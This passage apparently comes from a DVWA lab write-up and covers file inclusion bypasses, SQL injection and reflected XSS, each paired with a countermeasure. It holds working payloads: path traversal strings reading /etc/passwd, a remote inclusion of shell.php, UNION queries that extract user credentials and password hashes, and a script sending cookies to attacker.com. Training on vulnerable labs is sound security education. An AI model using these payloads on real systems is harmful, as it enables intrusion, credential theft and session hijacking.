 **Medium Level:**
- Protection using `str_replace()` removing `../` and `http://`
- **Bypass**:
  - LFI: `..././..././etc/passwd` (double encoding)
  - RFI: `hthttp://tp://IP:8000/shell.php`
- **Result**: Remote file inclusion → shell access

**High Level:**
- File must start with `file`
- **Bypass**: Protocol `file:///etc/passwd`
- **Result**: LFI possible, RFI blocked

**Countermeasure**: Strict validation, whitelist of allowed files.

### SQL Injection

**Principle**: Execution of unauthorized SQL queries to access/modify database.

**Detection**:
- Injection of `'` generates SQL error
- Vulnerability confirmed

**Exploitation (Low Level):**
```sql
' ORDER BY 3 --                    # Number of columns
' UNION SELECT database(), user() --   # DB info
' UNION SELECT table_name, NULL FROM information_schema.tables
  WHERE table_schema='dvwa' --     # List tables
' UNION SELECT user, password FROM users --  # Extract credentials
```

**Results**:
- Database name: `dvwa`
- Tables: `users`, `guestbook`
- Columns: `user_id`, `user`, `password`, etc.
- **Complete MD5 hash extraction**

**Countermeasure**: Prepared Statements, ORM.

### XSS Reflected (Cross-Site Scripting)

**Principle**: JavaScript injection executed immediately on victim's browser.

**Exploitation**:
```html
<script>alert('XSS')</script>
<script>document.location='http://attacker.com/steal?cookie='+document.cookie</script>
```

**Impact**: Cookie theft, session hijacking, malicious redirection.

**Countermeasure**: HTML escaping, Content Security Policy (CSP).

### XSS Stored (Persistent Cross-Site Scripting)

**Principle**: JavaScript code stored in database, executed for all visitors.
